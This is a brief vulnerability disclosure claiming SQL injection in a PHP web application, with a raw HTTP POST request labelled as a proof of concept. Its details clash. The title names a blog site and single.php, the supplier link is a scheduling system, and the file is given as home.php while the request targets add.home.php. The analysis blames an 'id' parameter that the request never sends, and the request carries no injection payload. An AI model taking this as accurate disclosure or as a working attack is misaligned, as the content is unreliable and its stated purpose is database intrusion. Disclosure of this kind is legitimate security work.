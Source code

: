 # Responsive Blog Site has sql injection in single.php

## supplier 
https://code-projects.org/simple-scheduling-system-in-php-with-source-code/
## Vulnerability file
home.php

## describe

**Code analysis**   

In the home.php file of Responsive Blog Site, the id parameter is obtained, and the SQL statement is concatenated to the SQL statement without filtering the execution, resulting in SQL injection vulnerabilities and server permissions

![image-2025](https://github.com/asd1238525/cve/blob/main/9e2e0730-f653-4356-8a64-38c28a4b0421.png)


## POC

```
POST /sche/schedulingsystem/add.home.php HTTP/1.1
Host: 127.0.0.1:8083
Content-Length: 132
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8083
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8083/sche/schedulingsystem/home.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ndcsgs6flhkd0mjf99bi0qqcoh
Connection: close

faculty=Engineering&course=Computer+Science&subject=Computer+Programming+1&room=SB14&start_time=5%3A30+pm&end_time=7%3A30+pm&insert=

```

**Result**
![image-2025](https://github.com/asd1238525/cve/blob/main/67384e99-60c9-4d6f-b49b-55618b307ebd.png)
Get databases
![image-2025](https://github.com/asd1238525/cve/blob/main/03e2537e-9185-40f7-8dc9-09e4e462d58c.png)